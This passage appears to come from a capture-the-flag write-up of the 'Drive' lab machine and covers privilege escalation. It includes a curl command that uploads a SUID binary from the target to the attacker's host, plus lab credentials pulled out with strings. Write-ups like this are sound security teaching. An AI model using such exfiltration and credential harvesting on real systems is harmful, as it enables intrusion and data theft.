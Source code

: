 ## Privilege escalation

When landing on the machine we could see that there was a binary with SUID permissions. This basically means that **Anyone** can run this binary with root privileges.
```bash
ls -hal
```
![Suid binary](/assets/img/Drive/Drive_19.png)

So my first step is to exfiltrate this binary to my own machine using the same python uploadserver we used earlier. Doing the following command we can upload this file to our own machine 
```bash
curl -X POST http://10.10.14.123/upload -F files=@doodleGrive-cli
```

Whenever I gain access to a binary I want to analyize my first step is to run strings on it. Sometimes you can get lucky and get some interesting information out of the binary without putting in much effort.
```bash
strings doodleGrive-cli > doodleGrive_strings
```

When going through the output of the strings command I could see that there was username and password found on line 4132 of the strings output

```
<snipped>
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
Enter password for 
moriarty
findMeIfY0uC@nMr.Holmz!
Welcome...!
Invalid username or password.
<snipped>
```
